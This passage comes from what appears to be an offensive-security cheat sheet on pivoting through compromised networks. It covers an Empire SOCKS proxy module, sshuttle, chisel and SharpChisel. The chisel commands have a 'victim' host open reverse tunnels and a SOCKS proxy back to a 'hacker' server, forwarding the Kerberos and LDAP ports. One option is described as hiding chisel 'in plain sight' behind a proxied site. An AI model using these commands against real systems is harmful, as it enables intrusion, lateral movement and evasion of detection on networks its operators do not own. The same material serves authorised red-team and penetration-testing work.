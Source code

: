 ```powershell
(Empire) > socksproxyserver
(Empire) > use module management/invoke_socksproxy
(Empire) > set remoteHost 10.10.10.10
(Empire) > run
```

## sshuttle

Transparent proxy server that works as a poor man's VPN. Forwards over ssh. 

* Doesn't require admin. 
* Works with Linux and MacOS.
* Supports DNS tunneling.

```powershell
pacman -Sy sshuttle
apt-get install sshuttle
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
sshuttle -vvr username@pivot_host 10.2.2.0/24 

# using a private key
$ sshuttle -vvr root@10.10.10.10 10.1.1.0/24 -e "ssh -i ~/.ssh/id_rsa" 

# -x == exclude some network to not transmit over the tunnel
# -x x.x.x.x.x/24
```

## chisel


```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 

# SOCKS
user@victim$ .\chisel.exe client YOUR_IP:8008 R:socks
```

### SharpChisel

A C# Wrapper of Chisel : https://github.com/shantanu561993/SharpChisel

```powershell
user@hacker$ ./chisel server -p 8080 --key "private" --auth "user:pass" --reverse --proxy "https://www.google.com"
================================================================
server : run the Server Component of chisel 
-p 8080 : run server on port 8080
--key "private": use "private" string to seed the generation of a ECDSA public and private key pair
--auth "user:pass" : Creds required to connect to the server
--reverse:  Allow clients to specify reverse port forwarding remotes in addition to normal remotes.
--proxy https://www.google.com : Specifies another HTTP server to proxy requests to when chisel receives a normal HTTP request. Useful for hiding chisel in plain sight.

user@victim$ SharpChisel.exe client --auth user:pass https://redacted.cloudfront.net R:1080:socks
```

